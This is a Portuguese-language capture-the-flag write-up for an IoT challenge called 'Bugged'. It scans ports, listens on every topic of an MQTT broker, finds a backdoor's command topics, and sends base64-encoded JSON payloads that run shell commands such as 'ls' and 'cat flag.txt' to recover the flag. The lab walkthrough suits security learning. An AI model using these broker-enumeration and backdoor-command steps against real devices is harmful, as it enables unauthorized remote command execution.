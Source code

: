 # Bugged

---

>#### Write-Up by VESPAS 
>##### ***Written by:*** Augusto Graeml (gra3ml)
>##### ***Redacted by:*** Gabriel Rossetto (R0SSETT0)

_![Imagem](imagens/iotmeme.webp)_

Nesse desafio temos um MQTT-broker com tópicos no mínimo curiosos.
Interagindo com eles podemos identificar um backdoor na rede. Vamos começar! 

_![Imagem](imagens/broker_mqtt.png)_

## Primeiro scaneamos as portas

``` bash
nmap -sV -p- --min-rate=2000 <IP>
```

_![Imagem](imagens/imagem1.png)_

## Interagindo com o Broker
Não sabemos o tópico de interesse ainda, então usamos o wildcard # para entender melhor o que está acontecendo na rede:
``` bash
mqttx sub -t"#" -h IP
```

_![Imagem](imagens/imagem2.png)_

É possível ver uma mensagem estranha no meio das outras. Decodando de base64 temos algumas informações valiosas, como um ID de dispositivo, um tópico de publicações e um tópico de subscrições e alguns comandos possíveis.

``{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}``

**Vamos testar:**

Publicando a mensagem:
``` bash
mqttx pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "HELP" -h <IP>
```
Lendo a mensagem publicada:
``` bash
mqttx sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP> 
```
**resposta:**

_![Imagem](imagens/imagem3.png)_

### Decodando: 

Format: base64({"id": "backdoor id", "cmd": "command", "arg": "argument"})

### Enviando um primeiro payload:

``{"id": "id backdooor", "cmd": "CMD", "arg" : "ls"}``

em base64:
``eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==``

_![Imagem](imagens/imagem5.png)_


**resposta:**

_![Imagem](imagens/imagem6.png)_

``{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}``

### Enviando o commando para a recuperação da flag:

base64 -> {"id": "id backdooor", "cmd": "CMD", "arg" : "ls"} 

Commando completo com o payload em base64...
``` bash
mqttx pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m"eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0=" -h <IP>
``` 

### Recuperando a flag:
``` bash
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9" | base64 -d
```

_![Imagem](imagens/imagem7.png)_

### Room finalizada!
